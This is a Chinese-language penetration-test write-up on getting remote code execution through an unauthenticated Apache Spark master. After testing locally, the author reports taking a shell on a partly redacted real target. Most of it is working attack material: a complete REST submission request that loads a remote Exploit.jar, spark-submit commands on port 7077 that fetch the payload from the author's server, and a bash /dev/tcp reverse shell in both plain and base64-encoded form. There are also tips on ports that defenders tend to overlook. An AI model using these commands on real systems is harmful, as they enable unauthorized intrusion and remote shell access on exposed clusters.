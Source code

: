 ### 坑点总结
1、搭建环境时，发现端口被占用，netstat -antup查不到占用端口的pid和进程名，原因是权限不够，改用sudo netstat -antup可查到占用端口的pid和进程名  
2、阿里云vps开启nc监听时，需要加个参数n，即nc -lnvvvp 101.200.xx.xx 8888，原因未知  
3、当payload位于github上时，需考虑目标可能获取不到  
4、spark-submit下载后，执行时会报错，经排查原因是缺少依赖，改用下载更全的安装包spark-2.4.3-bin-hadoop2.7.tgz  

1、Exploit.jar链接不能是github，会获取不到  
2、反弹shell需要base64编码  
3、base64编码后需要修改Exploit.jar  

### 0x01 打点发现
团队一起做项目，同事发现一个Apache Spark未授权页面，我这边尝试打点，遂有此文
### 0x02 初次尝试
目标地址：  http://182.61.xxx.xxx:8080  
网上搜索针对Apache Spark的漏洞复现，直接打失败  
### 0x03 本地调试
本地搭建环境，使用vulhub项目中的环境：https://github.com/vulhub/vulhub/tree/master/spark/unacc  
环境搭建完之后，访问：[http://192.168.202.128:8080](http://192.168.202.128:8080)能够成功访问，环境搭建成功  
访问端口6066，能够成功访问，而目标不能访问，说明目标关闭了端口6066  
当前漏洞的利用可通过2个端口：6066、7077（防守方容易忽略端口7077），且目标没关闭7077端口，又看到希望了  
首先对本地测试针对6066端口的漏洞利用，发送如下burp请求  
```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```
漏洞利用失败，思考了一下，可能是目标不能访问github，导致获取不到Exploit.jar，将Exploit.jar放置到自己的vps上，修改request后，重新发送请求  
成功获得响应，响应中包含driverId的值，然后用driverId的值替换下面的值，并访问如下地址
```
http://192.168.202.128:8081/logPage/?driverId=driver-20211014035556-0013&logType=stdout
```
页面会显示成功执行后的结果  

本地测试针对7077端口的漏洞利用  
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar id
```
spark-submit下载链接：https://archive.apache.org/dist/spark/spark-2.4.3/spark-2.4.3-bin-hadoop2.7.tgz  
查看执行结果还是通过上述方式，发现成功执行了命令  

通过端口7077反弹shell  
直接执行
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar "bash -i >& /dev/tcp/101.200.xx.xx/8888 0>&1"
```
vps上并没有收到反弹shell，思考了一下，可能是bash反弹shell中特殊字符的问题，对payload进行base64编码，借助如下网站：http://www.jackson-t.ca/runtime-exec-payloads.html  
编码后，发送请求，仍然没有收到反弹shell，继续排查，查看Exploit.jar的源代码发现，原作者是将
其中的
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
为
bash -i >& /dev/tcp/101.200.xx.xx/8888 0>&1
经过如下网站编码
http://www.jackson-t.ca/runtime-exec-payloads.html
```
执行后成功反弹shell  
![image](./pic/5.png)  

拿到目标测试后，成功拿到shell

参考链接：  
https://www.cnblogs.com/mutudou/p/14685277.html  
https://medium.com/@Wh0ale/apache-spark-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E-ada9eb02af65  
https://github.com/vulhub/vulhub/tree/master/spark/unacc  
https://github.com/aRe00t/rce-over-spark/blob/master/Exploit.java  
